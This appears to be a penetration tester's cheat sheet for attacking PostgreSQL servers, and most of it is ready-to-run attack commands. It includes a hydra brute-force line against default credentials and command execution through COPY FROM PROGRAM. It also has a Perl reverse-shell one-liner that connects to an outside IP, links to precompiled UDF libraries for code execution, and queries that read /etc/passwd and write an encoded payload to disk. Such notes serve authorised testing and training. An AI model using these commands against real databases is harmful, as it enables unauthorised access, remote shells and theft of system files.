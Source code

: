 # PostgresSQL

### Connecting

```abap
psql -h 192.168.115.56 -p 5432 -U postgres
# brute force
hydra 192.168.115.56 postgres -C /usr/share/seclists/Passwords/Default-Credentials/postgres-betterdefaultpasslist.txt
```

# Getting RCE

When you have access to a Postgres database, you can get RCE by inserting a [UDF library](https://infosecwriteups.com/compiling-postgres-library-for-exploiting-udf-to-rce-d8cfd197bdf9). Or if the databse is a version >9.3, as explained [here](https://infosecwriteups.com/compiling-postgres-library-for-exploiting-udf-to-rce-d8cfd197bdf9), you can just execute commands through the [payloads all the things payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution).

```abap
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```

> *********************Note: Must use 2 single quotes to escape a single quote*********************
> 

```abap
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

> **************Note: If you are unable to get a reverse shell through this method, you may want to try the UDF library.**************
> 

## UDF Library

You can find a library of precompiled `pg_exec.so` files here for different versions of the database 

[pg_exec/libraries at master · martinvw/pg_exec](https://github.com/martinvw/pg_exec/tree/master/libraries)

[HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions#rce-in-linux) shows this way to get RCE once you have the correct binary

Verify code execution by

![Untitled](PostgresSQL%20e498983a19fd4f41881b473aa3909607/Untitled.png)

![Untitled](PostgresSQL%20e498983a19fd4f41881b473aa3909607/Untitled%201.png)

![Untitled](PostgresSQL%20e498983a19fd4f41881b473aa3909607/Untitled%202.png)

# CRUD- basic functions

Reading files and listing directories in PostgresSQL.

```abap
select * from pg_ls_dir('/tmp'); # list directory (ls)
select * from pg_read_file('/etc/passwd', 0, 1000000); # read file (less/cat)
select * from pg_read_binary_file('/etc/passwd');

```

Writing to files

```abap
copy (select convert_from(decode('<ENCODED_PAYLOAD>','base64'),'utf-8')) to '/just/a/path.exec';
```